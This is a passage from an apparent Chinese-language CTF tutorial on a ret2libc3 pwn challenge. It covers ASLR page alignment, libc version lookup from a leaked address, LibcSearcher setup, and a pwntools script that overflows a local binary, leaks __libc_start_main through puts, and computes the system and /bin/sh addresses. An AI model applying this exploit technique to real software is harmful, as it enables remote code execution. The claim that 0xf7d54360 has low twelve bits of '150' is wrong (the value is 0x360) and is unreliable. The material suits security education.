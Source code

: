 然后，我们需要获取libc的版本才能得到libc基地址。如何能够用一个函数真实地址得到版本或者基地址呢？

aslr技术，是地址随机化，虽然是地址随机化，但低十二位是不变的，因为需要内存页对齐，puts函数的真实地址0xf7d54360的低十二位是150

可以根据后十二位查到这个函数所在的libc的版本：[libc_search](https://libc.blukat.me/)

啊哦，找到了很多各版本！那就只能多试一下咯！或者将上面的程序重新运行一下，找__libc_start_main的真实地址，算了，还是给大家演示一下吧

```
puts_got_addr = e.got['puts']改成
puts_got_addr = e.got['__libc_start_main']
#其他的不需要动，当然可以更改变量名称咯
```

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 76030
[*] '/home/dililearngent/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7dc3550
[*] Stopped process './ret2libc3' (pid 76030)
```

这个网站再查询一下，变成2条结果了，不过这两条结果的偏移量是一样了(不贴图了)

接下来根据公式得到了system函数的偏移量和/bin/sh的偏移量(即str_bin_sh)，构造payload，拿到shell

手工太麻烦了，我们使用工具：[LibcSearcher](https://github.com/lieanu/LibcSearcher)

安装：

```
git clone https://github.com/lieanu/LibcSearcher.git
cd LibcSearcher
python setup.py develop
```

使用查看readme

构造最终exp（这里选择了找__libc_start_main真实地址）

```
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')
context.log_level = 'debug'

main_got_addr = e.got['__libc_start_main']   
puts_plt_addr = e.plt['puts']  
main = e.symbols['main']        

payload = flat(['A' * 112, puts_plt_addr, main, main_got_addr])

p.sendlineafter('Can you find it !?', payload)  

main_rel_addr = u32(p.recv()[0:4])  
print hex(main_rel_addr)

libc = LibcSearcher('__libc_start_main', main_rel_addr)
libcbase = main_rel_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print hex(binsh_addr)

```